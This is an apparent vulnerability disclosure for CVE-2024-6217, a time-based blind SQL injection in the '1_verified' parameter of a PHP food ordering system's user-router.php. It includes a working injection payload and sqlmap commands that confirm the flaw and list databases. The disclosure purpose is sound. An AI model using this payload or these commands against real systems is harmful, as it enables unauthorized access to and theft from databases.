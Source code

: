 ```yaml
---
title: CVE-2024-6217
draft: false
tags:
  - cve
---
```


# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (user-router.php)
## CVE-2024-6217
Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: user-router.php

Injection parameter: 1_verified


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The '1_verified' parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on "Modify", we can access user-router.php:

`http://172.16.76.1/foms/users.php`

![image](https://github.com/jadu101/CVE/assets/76433661/a007fd00-1573-4c4f-92f0-01cc212c2253)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/e3a06a90-6829-4821-be84-376f1e8853a6)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

parameter 1_verified is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_user_router.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/c819e930-cc89-443a-a411-1564c81a6c98)

```
---
Parameter: 1_verified (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1_role=Administrator&1_verified=1' AND (SELECT 7078 FROM (SELECT(SLEEP(5)))GiGD) AND 'QLkI'='QLkI&1_deleted=0&1_balance=2000&4_role=Customer&4_verified=1&4_deleted=0&4_balance=1224&5_role=Customer&5_verified=0&5_deleted=0&5_balance=2000&6_role=Customer&6_verified=0&6_deleted=0&6_balance=2000&75_role=Customer&75_verified=0&75_deleted=0&75_balance=2001&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_user_router.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/41fda954-8efa-4597-a3ff-399f75db7585)
